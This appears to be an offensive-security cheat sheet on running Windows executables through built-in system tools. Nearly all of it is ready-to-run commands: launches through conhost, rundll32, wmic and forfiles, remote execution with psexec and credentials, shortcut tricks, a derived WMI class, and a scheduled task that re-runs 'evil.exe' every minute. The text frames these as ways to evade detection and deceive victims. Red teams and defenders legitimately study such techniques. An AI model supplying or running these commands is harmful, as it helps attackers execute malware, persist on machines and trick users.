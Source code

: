# EXE Execution

There are various ways to run an `.exe` file. Most of the time, several are used together or indirectly executed for Evasion.

```powershell
bash -c "cmd.exe /c evil.exe"
conhost evil.exe
conhost --headless evil.exe
explorer C:\Windows\System32\calc.exe
explorer /root,"C:\Windows\System32\calc.exe"
pcalua -a .\evil.exe

# Replace "example.local" with an actual domain or a computer name of a target system.
psexec \\example.local -accepteula evil.exe
psexec \\example.local -u "username" -p "password" -accepteula evil.exe

rundll32 pcwutl.dll,LaunchApplication .\evil.exe
rundll32 shell32.dll,ShellExec_RunDLL C:\evil.exe

wmic process call create C:\evil.exe
```

## Indirect Execution

We may execute `.exe` files indirectly to deceive victims.

- via Shortcut

    These commands create a shortcut file and write the executable path for the URL, then execute it. This technique can also be used for causing victims to execute it by mistake.

    ```powershell
    echo [InternetShortcut] > .\example.url
    echo URL=C:\evil.exe >> .\example.url
    .\example.url
    ```

- via Forfiles

    This command searches `notepad.exe` in 'C:\Windows\System32\' directory then if found, execute arbitrary file. This is a roundabout method, but it can confuse victims a little.

    ```powershell
    forfiles /p C:\Windows\System32 /m notepad.exe /c C:\evil.exe
    ```

- via WMI

    This command creates a new WMI class, then execute arbitrary file.

    ```powershell
    $Class = New-Object Management.ManagementClass(New-Object Management.ManagementPath("Win32_Process"))
    $NewClass = $Class.Derive("Win32_Evil").Put()
    Invoke-WmiMethod -Path Win32_Evil -Name create -ArgumentList evil.exe
    ```

- via Scheduled Task

    The command adds the task that executes arbitrary .exe file every minute.

    ```powershell
    schtasks /Create /SC MINUTE /MO 1 /TN "My Task" /TR C:\evil.exe
    ```

- via WSL

    ```powershell
    wsl /mnt/c/Users/Public/evil.exe
    ```
